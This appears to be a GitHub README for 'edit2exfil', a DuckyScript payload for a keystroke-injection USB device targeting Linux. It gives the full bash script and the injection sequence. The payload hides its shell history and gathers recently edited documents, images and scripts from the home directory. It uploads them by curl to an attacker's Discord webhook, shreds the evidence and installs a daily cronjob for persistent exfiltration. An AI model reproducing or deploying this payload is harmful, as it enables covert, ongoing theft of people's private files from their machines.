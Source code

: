 
REM TITLE: edit2exfil

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux Release 2025-W19)

REM DESCRIPTION: (See below)

REM REQUIREMENTS: Place Discord webhook in the #WEBHOOK_URL constant on line 10 | Timing of when and how frequent the script will be ran (10:00 AM, daily by default) via `cronjob` can be changed in line 53.

-----

## edit2exfil

edit2exfil is a persistent file exfiltration payload that embeds itself as a `cronjob` on Linux systems via bash script, running silently in the background allowing for persistent exfiltration of updated files.

**The payload builds a bash script (.e2e.sh) that performs multiple tasks in the following order:**

1. a `net_check` conditional statement is utilized to see if the machine has internet connectivity. This is acheived by sending a `PING` to [Hak5.org](https://hak5.org). If `PING` was **NOT** successful, the script exits and will be ran again in 24 hours by default (or the next scheduled time of your choosing). If the `PING` **WAS** successful, the script moves to a secondary conditional statement >
2. a `file_check` conditional statement is utilized to see if the following document file types have been modified (edited) in the past 24 hours in the /home directory (recursively): `.txt, .pdf, .docx, .doc, .csv, .xlsx, .png, .jpg, .jpeg, .sh`. If there are **NOT** any documents (with the previous file types) that have been modified in the past 24 hours in the /home directory (recursively), the script exits and will be ran again in 24 hours by default (or the next scheduled time of your choosing), else >
3. The files are tarballed (.loot.tar.gz) and placed (hidden) in the /home directory for exfiltration >
4. The tarball is then exfiltrated via Discord webhook >
5. The tarball is then `shredded` to obfuscate its' presence >
6. End of script.

Total time for DuckyScript payload to run: `7 seconds`.

**DuckyScript Payload Workflow:**
  1. Terminal window is opened >
  2. Terminal history is unset (to obfuscate building of the payloads' bash script (.e2e.sh) > bash script is built >
  3. Execution permissions are given to .e2e.sh > .e2e.sh is added to `cronjob` to automatically run silently in the bachkground daily at 10:00 AM >
  4. Terminal window is closed >
  5. End of payload.

**Payload Bash Script (.e2e.sh):**
```
# Creating file_check function to see if the listed filetypes (and their respective documents) have been modified (edited) in the past 24 hours:
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}

# Creating hidden tarball function to tarball the listed documents (of the respective filetypes) that have been modified (edited) in the past 24 hours:
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}

# Creating net_check function to check for internet connectivity by send a PING to hak5.org:
net_check() {
    ping -c 1 hak5.org
}

# Creating global $user variable:
user="$(whoami)"

# If internet connection, check for files, if files, tarball, else exit:
if net_check; then
    if file_check; then
        tarball
    else
        exit 0
    fi
else
    exit 0
fi

# Exfiltrate tarball of found files to Discord:
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/$user/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL

# Shred the tarball post exfiltration to obfuscate:
shred -fuz ~/.loot.tar.gz
```

**DuckyScript Payload (building of above script):**
```
REM Place Discord webhook and user constants:
DEFINE #WEBHOOK_URL https://discord.com/api/webhooks/PLACE/WEBHOOK/HERE
DEFINE #USER PLACE_USER_HERE

REM Begin attack:
ATTACKMODE HID
DELAY 1000

REM Opening terminal:
CTRL ALT t
DELAY 300

REM Unsetting terminal history and building ".e2e.sh":
STRINGLN unset HISTFILE
STRINGLN cat > .e2e.sh
STRINGLN_BASH
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}
net_check() {
    ping -c 1 hak5.org
}
user="$(whoami)"

if net_check; then
    if file_check; then
        tarball
    else
        exit 0
    fi
else
    exit 0
fi
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/$user/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL
shred -fuz ~/.loot.tar.gz
END_STRINGLN
CTRL c

REM Granting execution permissions and adding ".e2e.sh" to cronjob to be executed at 10:00 AM, daily:
STRINGLN chmod +x .e2e.sh && crontab -l > e2etemp && echo "0 10 * * * ~/.e2e.sh" >> e2etemp && crontab e2etemp && shred -fuz e2etemp && exit
```
